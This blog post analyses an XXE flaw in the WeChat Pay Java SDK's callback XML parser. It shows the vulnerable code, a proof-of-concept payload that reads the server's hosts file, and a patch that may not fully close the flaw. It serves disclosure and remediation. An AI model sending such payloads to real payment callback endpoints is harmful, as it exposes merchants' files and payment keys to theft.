 ```yaml
---
layout: post
title: "微信支付SDK XXE漏洞分析"
date: 2018-07-04
description: "微信支付SDK XXE漏洞分析"
tag: 应用安全
---
```


------

## 漏洞描述
微信在JAVA版本的SDK中提供callback回调功能，用来帮助商家接收异步付款结果，该接口接受XML格式的数据，攻击者可以构造恶意的回调数据（XML格式）来窃取商家服务器上的任何文件，一般支付服务器均为核心服务器，出现XXE导致任意文件。另外，一旦攻击者获得了关键支付的安全密钥（md5-key和商家信息，将可以直接实现0元支付购买任何商品）。

## 漏洞来源
[http://seclists.org/fulldisclosure/2018/Jul/3](http://seclists.org/fulldisclosure/2018/Jul/3)  
[https://xz.aliyun.com/t/2427](https://xz.aliyun.com/t/2427)

## 漏洞分析
[微信支付Java SDK 下载](https://drive.google.com/file/d/1AoxfkxD7Kokl0uqILaqTnGAXSUR1o6ud/view?usp=sharing)
### 漏洞关键代码
* WXPayUtil.java
```java
public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```

微信SDK的xmlToMap方法接受并处理XML数据，但是默认支持外部实体解析，所以只要可以控制strXML就能导致XXE漏洞。

### 微信SDK支付逻辑
根据README可以看到，微信SDK的支付逻辑如下：
1. 首先统一下单
```java
import com.github.wxpay.sdk.WXPay;
import java.util.HashMap;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> data = new HashMap<String, String>();
        data.put("body", "腾讯充值中心-QQ会员充值");
        data.put("out_trade_no", "2016090910595900000012");
        data.put("device_info", "");
        data.put("fee_type", "CNY");
        data.put("total_fee", "1");
        data.put("spbill_create_ip", "123.12.12.123");
        data.put("notify_url", "http://www.example.com/wxpay/notify");
        data.put("trade_type", "NATIVE");  // 此处指定为扫码支付
        data.put("product_id", "12");

        try {
            Map<String, String> resp = wxpay.unifiedOrder(data);
            System.out.println(resp);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```

其中notify_url是接入方自己构建的web接口，用于异步接收微信支付结果通知的回调地址。
2. 处理微信回调
```java
import com.github.wxpay.sdk.WXPay;
import com.github.wxpay.sdk.WXPayUtil;
import java.util.Map;

public class WXPayExample {

    public static void main(String[] args) throws Exception {

        String notifyData = "...."; // 支付结果通知的xml格式数据

        MyConfig config = new MyConfig();
        WXPay wxpay = new WXPay(config);

        Map<String, String> notifyMap = WXPayUtil.xmlToMap(notifyData);  // 转换成map

        if (wxpay.isPayResultNotifySignatureValid(notifyMap)) {
            // 签名正确
            // 进行处理。
            // 注意特殊情况：订单已经退款，但收到了支付结果成功的通知，不应把商户侧订单状态从退款改成支付成功
        }
        else {
            // 签名错误，如果数据里没有sign字段，也认为是签名错误
        }
    }

}
```
nodifyData实际是微信给接入方回调地址notify_url返回的xml数据。接入方使用xmlToMap处理nodifydata。攻击者只需要知道nodify_url，就可以构造XXE Payload进行攻击。

### 漏洞复现
简单修改SDK中示例代码的xmlStr为XXE Payload，查看可否实现XXE攻击。
* TestWXPay.java

```java
    /**
     * 小测试
     */
    public void test001() {
        String xmlStr="<?xml version=\"1.0\" encoding=\"utf-8\"?>\n" +
                "<!DOCTYPE root [\n" +
                "\t<!ENTITY xxe SYSTEM \"file:///C:\\Windows\\System32\\drivers\\etc\\hosts\">]>\n" +
                "<root>\n" +
                "\t<xxe>&xxe;</xxe>\n" +
                "</root>";
        try {
            System.out.println(xmlStr);
            System.out.println("+++++++++++++++++");
//            System.out.println(WXPayUtil.isSignatureValid(xmlStr, config.getKey())); //此处可注释测试，接入方处理微信回调时也是先调用xmlToMap再校验签名的
            Map<String, String> hm = WXPayUtil.xmlToMap(xmlStr);
            System.out.println("+++++++++++++++++");
            System.out.println(hm);
//            System.out.println(hm.get("attach").length()); //此处可注释

        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```
* 执行结果  
![](/images/posts/app_sec/WXPay_result1_2018-07-04_20-53-14.png)  
已经成功读取hosts文件。证明只要接入方使用了此版本SDK并且攻击者知道回调地址，就可以成功实现XXE攻击。

## 修复建议
`禁用外部实体解析`  
目前微信支付Java SDK已经修复了代码，可以在[这里](https://drive.google.com/file/d/1cHtElmTLfDRov1poIAAD70jwa8NGh78P/view?usp=sharing)下载修复后代码。
* WXPayUtil.java  
```java
 public static Map<String, String> xmlToMap(String strXML) throws Exception {
        try {
            Map<String, String> data = new HashMap<String, String>();
            DocumentBuilderFactory documentBuilderFactory = DocumentBuilderFactory.newInstance();
			documentBuilderFactory.setExpandEntityReferences(false); //禁用外部实体解析
			documentBuilderFactory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true); //开启XML安全处理
            DocumentBuilder documentBuilder = documentBuilderFactory.newDocumentBuilder();
            InputStream stream = new ByteArrayInputStream(strXML.getBytes("UTF-8"));
            org.w3c.dom.Document doc = documentBuilder.parse(stream);
            doc.getDocumentElement().normalize();
            NodeList nodeList = doc.getDocumentElement().getChildNodes();
            for (int idx = 0; idx < nodeList.getLength(); ++idx) {
                Node node = nodeList.item(idx);
                if (node.getNodeType() == Node.ELEMENT_NODE) {
                    org.w3c.dom.Element element = (org.w3c.dom.Element) node;
                    data.put(element.getNodeName(), element.getTextContent());
                }
            }
            try {
                stream.close();
            } catch (Exception ex) {
                // do nothing
            }
            return data;
        } catch (Exception ex) {
            WXPayUtil.getLogger().warn("Invalid XML, can not convert to map. Error message: {}. XML content: {}", ex.getMessage(), strXML);
            throw ex;
        }

    }
```
* 修复后执行结果  
![](/images/posts/app_sec/WXPay_result2_2018-07-04_20-53-14.png)  